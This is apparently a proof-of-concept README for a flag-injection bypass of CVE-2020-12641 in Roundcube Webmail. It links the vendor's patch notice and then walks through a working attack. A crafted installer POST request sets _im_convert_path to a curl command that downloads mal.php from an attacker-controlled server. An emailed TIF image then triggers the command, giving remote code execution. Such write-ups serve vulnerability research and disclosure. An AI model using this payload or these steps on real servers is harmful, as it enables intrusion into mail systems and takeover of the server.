 # Flag Injection Bypass for CVE-2020-12641 in Roundcube Webmail

This bypass affects Roundcube versions before 1.4.5, 1.3.12.

### Vendor Disclosure:

The vendor's disclosure and patch for the bypass can be found [here](https://roundcube.net/news/2020/06/02/security-updates-1.4.5-and-1.3.12).

### Flag Injection in an Arbitrary Executable

This exploit is not OS dependent, but it depends on the executables that the attacker has access to.
<br/>
In this case we will use the "[curl](https://curl.haxx.se/)" executable in a Linux Environment, and will perform the following steps:

#### Craft Injection Request

We craft and send a POST request to the Installer containing the malicious command injection in the "_im_convert_path" parameter:
```
POST /roundcube/installer/index.php HTTP/1.1
Host: 192.168.243.153
Content-Type: application/x-www-form-urlencoded
Content-Length: 1049

_step=2&_product_name=Roundcube+Webmail&***TRUNCATED***&submit=UPDATE+CONFIG&_im_convert_path=curl+-o+mal.php+http%3a//192.168.243.157%3a8000/mal.php%3f
```

<strong>Note:</strong> In this case "curl" is used to download a malicious PHP file from an attacker controlled server.
<br/>
The curl command cares only about 2 argumet/flags:
- <strong>-o mal.php</strong> == tells curl to write output to the mal.php file
- <strong>http://192.168.243.157:8000/mal.php</strong> == the attacker url that host the malicious mal.php file that will be downloaded on the victim


#### Send Email Containing a "Non-standard" Image

We proceed to send to the victim, in this case "guest@localhost", an email containing an image of non-standard format (in this case a "TIF" format image), which Roundcube will try to convert to "JPG" format, thus triggering the above code and using curl to write our PHP file on the victim:
<img src="Open%20Mail_Flag%20Inj.png"/>

#### Result

If the attack was performed correctly, when the victim opens the mail containing the "TIF" image, a PHP file of arbitrary content will be written to the Roundcube Server, and can be accessed by the attacker, resulting in arbitrary code execution:
<img src="Access%20PHP.png"/>
